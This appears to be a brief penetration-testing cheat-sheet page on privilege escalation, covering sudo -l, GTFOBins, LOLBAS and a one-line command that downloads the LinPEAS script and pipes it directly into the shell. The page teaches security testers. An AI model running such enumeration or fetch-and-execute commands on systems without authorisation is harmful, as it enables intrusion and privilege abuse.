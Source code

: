 ```yaml
---
title: "Privilege escalation"
description: ""
seo:
  title: ""
  description: ""
---
```


## Linux

### Sudo

Lists the commands that the current user can run with sudo. This is useful for finding out if the user has permission to run any commands as root or other users.

```bash
sudo -l
```

### GTFOBins

GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions, if for instance the user can run them with sudo (as we just saw before) or as a setuid binary.
Refer to the [GTFOBins website](https://gtfobins.github.io/) for the full list of binaries and their exploits.

### LinPEAS

LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts.

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Windows

### LOLBAS

The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.
Refer to the [LOLBAS website](https://lolbas-project.github.io/#) for the full list of binaries and their exploits.
